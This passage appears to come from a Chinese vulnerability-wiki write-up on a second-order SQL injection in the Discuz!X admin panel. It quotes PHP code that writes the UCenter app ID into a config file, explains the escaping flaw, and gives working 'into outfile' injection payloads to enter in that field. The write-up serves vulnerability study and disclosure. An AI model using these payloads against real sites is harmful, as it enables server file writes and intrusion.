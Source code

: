            $fp = fopen('./config/config_ucenter.php', 'w');
            if(!($fp = @fopen('./config/config_ucenter.php', 'w'))) {
                cpmsg('uc_config_write_error', '', 'error');
            }
            @fwrite($fp, trim($configfile)); // 写入到config_ucenter.php 可控UC_APPID 的值 通过上面代码可以看出来只简单的addslashes了一下
            @fclose($fp);
        }

        isset($settingnew['regname']) && empty($settingnew['regname']) && $settingnew['regname'] = 'register';
        isset($settingnew['reglinkname']) && empty($settingnew['reglinkname']) && $settingnew['reglinkname'] = cplang('reglinkname_default');
        $nohtmlarray = array('bbname', 'regname', 'reglinkname', 'icp', 'sitemessage', 'site_qq');
        foreach($nohtmlarray as $k) {
            if(isset($settingnew[$k])) {
                $settingnew[$k] = dhtmlspecialchars($settingnew[$k]);
            }
        }

        if(isset($settingnew['statcode'])) {
            $settingnew['statcode'] = preg_replace('/language\s*=[\s|\'|\"]*php/is', '_', $settingnew['statcode']);
            $settingnew['statcode'] = str_replace(array('<?', '?>'), array('<?', '?>'), $settingnew['statcode']);
        }

转义一次的字符串被写人文件中，在PHP解析时就是没有转义过的原始内容
造成了二次注入的产生

    <?php
    define('UC_APPID', 'sadsadsadasd\'');
    printf(UC_APPID);

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId24.png)

漏洞验证

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId27.png)

直接构造语句

    1' into outfile 'c:\\wamp64\\tmp\\1.txt'  -- a

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId28.png)

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId29.png)

构造报错注入

### 补充：

UCenter 应用 ID填入exp，然后提交

    1' union select 'abc'  into outfile 'c:\6.txt' -- a
